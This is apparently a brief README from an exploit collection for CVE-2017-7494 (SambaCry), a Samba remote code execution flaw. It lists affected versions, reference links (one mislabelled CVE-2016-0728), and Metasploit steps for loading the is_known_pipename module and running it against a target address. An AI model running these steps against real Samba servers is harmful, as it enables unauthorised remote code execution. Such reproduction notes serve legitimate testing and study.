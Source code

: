 # CVE-2017-7494

CVE-2017-7494

Vulnerability reference:
 * [CVE-2016-0728](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2017-7494)  
 * [exp-db](https://www.exploit-db.com/exploits/42060/)  

## Samba
```
Samba 3.5.0-4.6.4/4.5.10/4.4.14
```   

## Usage
```
is_known_pipename.rb 放在 /usr/share/metasploit-framework/modules/exploits/linux/samba/ 目录下

msf > use exploit/linux/samba/is_known_pipename

set RHOST 192.168.220.140

run
```  


## References
* [Samba远程代码执行漏洞(CVE-2017-7494)](http://thief.one/2017/05/25/2/)
* [【漏洞分析】Samba远程代码执行漏洞(CVE-2017-7494)-SambaCry分析报告](http://bobao.360.cn/learning/detail/3915.html)
* [Msf复现Samba远程代码执行漏洞](http://www.secist.com/archives/3666.html)  




